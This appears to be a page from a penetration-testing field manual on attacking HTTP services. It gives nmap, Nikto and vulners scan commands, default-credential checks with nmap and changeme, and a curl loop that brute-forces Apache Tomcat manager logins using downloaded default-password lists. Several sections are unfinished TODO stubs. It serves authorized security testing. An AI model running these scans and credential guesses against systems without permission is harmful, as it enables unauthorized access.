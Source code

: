 
# Flawed HTTP Remote Services

## Overview

MITRE ATT&CK mapping: T1021 / T1210

## Procedures

### Additional tools

 - [gnmap2urls.sh](scripts/gnmap2urls.sh)
 - [http-fingerprints-min.lua](scripts/http-fingerprints-min.lua)
 - [nikto vuln db file](https://raw.githubusercontent.com/sullo/nikto/master/program/databases/db_tests)

### Web vulnerability discovery

Prepare target list:

    # transform URL list to hosts (http-ips.txt) and ports (http-ports.txt) lists:
    cat urls-all.txt | tee >(awk -F '//' '{print $2}' | cut -d':' -f1 > http-ips.txt) >(awk -F '//' '{print $2}' | awk -F':' '{print $2}' | grep . | sort -u > http-ports.txt)

Using Nikto DB:

    # get nikto vuln db file
    wget https://raw.githubusercontent.com/sullo/nikto/master/program/databases/db_tests -O nikto_db_tests

    # get minimal http-enum script
    wget https://raw.githubusercontent.com/mzet-/z-field-manual/master/scripts/http-fingerprints-min.lua

    # conduct http vuln scan on all previously identified http-based services:
    nmap -n -PN -sS -sV --version-intensity 2 --script=http-enum --script-args=http-enum.fingerprintfile=./http-fingerprints-min.lua,http-fingerprints.nikto-db-path=./nikto_db_tests -T4 -iL http-ips.txt -p80,443,$(cat http-ports.txt | tr '\n' ',') -oA vscans/http-nikto-vuln-scan

Using http-vulners-regex:

```
# get latest http vulners and regex matches:
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-regex.nse
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-regex.json
wget https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/http-vulners-paths.txt

# TODO: launch
```

[snallygaster](https://github.com/hannob/snallygaster) (run in parallel)

```
TODO
```

### Web-based authentication panels

Default credentials: Nmap

```
# get Nmap's aternative default account db :
wget https://raw.githubusercontent.com/nnposter/nndefaccts/master/http-default-accounts-fingerprints-nndefaccts.lua

# transform URL list to hosts (http-ips.txt) and ports (http-ports.txt) lists:
cat urls-all.txt | tee >(awk -F '//' '{print $2}' | cut -d':' -f1 > http-ips.txt) >(awk -F '//' '{print $2}' | awk -F':' '{print $2}' | grep . | sort -u > http-ports.txt)

# check for default web-based accounts:
nmap -n -PN -sS -sV --version-intensity 2 --script http-default-accounts --script-args http-default-accounts.fingerprintfile=./http-default-accounts-fingerprints-nndefaccts.lua -T4 -iL http-ips.txt -p80,443,$(cat http-ports.txt | tr '\n' ',') -oA vscans/http-def-accounts
```

Default credentials: changeme

```
# note: when providing file to 'changeme' full path is required:
changeme '/home/pt/httprobe-all.txt' -v -t 20 | tee changeme-http-urls.out
changeme '/home/pt/vscans/nmap.xml' --category http -v -t 20 | tee changeme-http-urls.out
```

Weak/simple credentials:

```
TODO
```


### Apache Tomcat: default/weak credentials

Use Metasploit module:

```
auxiliary/scanner/http/tomcat_mgr_login
```

OR (if many different ports are used), prepare target list:

```
Prereq: Nmap scan results imported to msf

msf> services -S Coyote -c port -o /tmp/tomcat.csv
$ for i in $(cat /tmp/tomcat.csv | tr -d '"' | tr ',' ':'); do echo "http://$i/manager/html"; done > tomcat-urls.txt
```

Prepare creds list:

```
# Set 1:
wget https://raw.githubusercontent.com/wintrmvte/medusa_combo_files/master/tomcat_default_79.txt
cat tomcat_default_79.txt | cut -d: -f2,3 > PAYLOADS/tomcat-defaults-2.txt

# Set 2:
$ wget https://raw.githubusercontent.com/netbiosX/Default-Credentials/master/Apache-Tomcat-Default-Passwords.mdown
$ cat Apache-Tomcat-Default-Passwords.mdown | tr -d ' ' | awk -F'|' '{print $2":"$3}' > PAYLOADS/tomcat-defaults-2.txt
```

Launch:

```
while read line; do echo -n "$line : "; for i in $(cat PAYLOADS/tomcat-defaults-1.txt); do RES=$(curl -k -H "Authorization: Basic $(echo -n "$i" | base64)" -s -o /dev/null -w "%{http_code}" --url "$line"); echo "$i:: $RES"; [ "$RES" -eq 200 ] && break; done; done < tomcat-urls.txt | tee tomcats-results-2.txt
```

## OPSEC considerations

## Counter-countermeasures
